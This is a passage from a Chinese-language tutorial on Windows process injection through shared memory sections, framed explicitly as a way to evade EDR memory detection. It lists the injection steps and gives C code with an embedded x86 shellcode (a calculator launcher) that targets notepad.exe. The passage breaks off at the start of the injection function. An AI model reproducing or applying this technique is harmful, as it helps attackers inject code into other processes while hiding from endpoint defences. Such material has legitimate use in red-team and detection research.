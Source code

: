 
**注入流程：**

1. 创建一个具有 `RWX` 保护的新内存节（`section`）
2. 映射一个新内存节的视图到本地的恶意进程，传参时候使用 RW 保护
3. 映射一个新内存节的视图到远程目标进程（使用 RX 保护）。请注意，通过用 `RW`（本地）和 `RX`（在目标进程中）映射视图，我们不需要分配带有 `RWX` 的内存页，以规避 EDR 的内存检测。
4. 使用 memcpy 库函数将 shellcode 填入本地进程中映射的视图。因为节是进程之间共享的内存块，所以、目标进程中的映射视图将填充相同的 shellcode。



**代码：（我把这个过程自己封成了一个函数 NtMappingShellcodeFile）**

```
#include <windows.h>
#include <stdio.h>
#include <tchar.h>
#include <tlhelp32.h>

#pragma comment(lib, "ntdll")
#define _WIN32_WINNT 0x0400
#define NT_SUCCESS(Status) ((NTSTATUS)(Status) >= 0)


BOOL NtMappingShellcodeFile(LPPROCESS_INFORMATION pi, unsigned char* shellcode, DWORD dwShellcodeLength);

int main(void)
{
	int result;

	//弹计算器 shellcode
	unsigned char shellcode[] =
		"\x55\x8B\xEC\x83\xEC\x20\x64\xA1\x30\x00\x00\x00\x8B\x40"
		"\x0C\x8B\x40\x1C\x8B\x00\x8B\x00\x8B\x40\x08\xC7\x45\xFC"
		"\x00\x00\x00\x00\xC7\x45\xF8\x00\x00\x00\x00\xC7\x45\xF4"
		"\x00\x00\x00\x00\x8B\x58\x3C\x8D\x1C\x18\x8B\x5B\x78\x8D"
		"\x14\x18\x8B\x5A\x1C\x8D\x1C\x18\x89\x5D\xFC\x8B\x5A\x20"
		"\x8D\x1C\x18\x89\x5D\xF8\x8B\x5A\x24\x8D\x1C\x18\x89\x5D"
		"\xF4\x8B\x7A\x18\x33\xC9\x8B\x75\xF8\x8B\x1C\x8E\x8D\x1C"
		"\x18\x8B\x1B\x81\xFB\x57\x69\x6E\x45\x74\x03\x41\xEB\xED"
		"\x8B\x5D\xF4\x33\xD2\x66\x8B\x14\x4B\x8B\x5D\xFC\x8B\x1C"
		"\x93\x8D\x04\x18\xEB\x09\x63\x61\x6C\x63\x2E\x65\x78\x65"
		"\x00\xE8\x00\x00\x00\x00\x5B\x83\xEB\x0E\x6A\x05\x53\xFF"
		"\xD0\x8B\xE5\x5D\xC3";
	DWORD dwShellcodeLength = sizeof shellcode;
	
	
    //测试 【NtMappingShellcodeFile】
	PROCESS_INFORMATION pi;
	ZeroMemory(&pi, sizeof(pi));
	wchar_t* lpProcessName = _wcsdup(TEXT("notepad.exe"));
	OpenProcessWithProcessNameW(lpProcessName, &pi);
	result = NtMappingShellcodeFile(&pi, shellcode, dwShellcodeLength);
	printf("result = %d\n", result);

	return 0;
}


//NtCreateSection → NtMapViewOfSection
BOOL NtMappingShellcodeFile(LPPROCESS_INFORMATION pi, unsigned char* shellcode, DWORD dwShellcodeLength)
{

```